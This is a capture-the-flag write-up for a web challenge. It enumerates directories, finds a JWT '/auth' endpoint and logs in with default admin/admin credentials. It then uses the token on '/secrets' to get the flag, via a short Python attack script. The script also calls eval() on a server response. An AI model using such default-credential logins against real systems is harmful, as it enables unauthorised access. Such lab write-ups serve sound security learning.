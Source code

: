 # authorization:Web-Misc

Flag Proof: `CTF{5b7cc033a48df4958a076286420b4a91631defa16be26409afbdf1e053367b21}`

## Summary:

- Running `feroxbuster` it reveals some directories
    - 
    
    ![Untitled](authorization%20Web-Misc%209fec13917767465e9a7e4ec7c18354e7/Untitled.png)
    

- `/auth` endpoint only accepts `POST` requests

 

![Untitled](authorization%20Web-Misc%209fec13917767465e9a7e4ec7c18354e7/Untitled%201.png)

- Making an empty `POST` request we find that it expects `JSON`

```python
def _default_auth_request_handler():

    data = request.get_json()
    username = data.get(current_app.config.get('JWT_AUTH_USERNAME_KEY'), None)
    password = data.get(current_app.config.get('JWT_AUTH_PASSWORD_KEY'), None)
    criterion = [username, password, len(data) == 2]
```

- Using default params as `username` and `password` with default creds as `admin` gives us a JWT token , and after that i started to do a script, because i expected the token to expire after one second (thought that `exp` and `iat` values were the same, but they aren’t)
- Now `/secrets` endpoint comes in, which needs an access token
    - Using the `Authorization: JWT <token>` header gives us the flag

```python
import requests
from requests.structures import CaseInsensitiveDict

data = {"username":"admin","password":"admin"}

proxy ={
	'http':'127.0.0.1:8080'
}

r = requests.post('http://34.107.45.139:31682/auth',json=data)

#print(r.text)

json = eval(r.text)
#print(json["access_token"])

token = json["access_token"]
headers = CaseInsensitiveDict()

headers["Authorization"] = "JWT {}".format(token)

r = requests.get('http://34.107.45.139:31682/secrets',headers=headers)
print(r.text)
```

![Untitled](authorization%20Web-Misc%209fec13917767465e9a7e4ec7c18354e7/Untitled%202.png)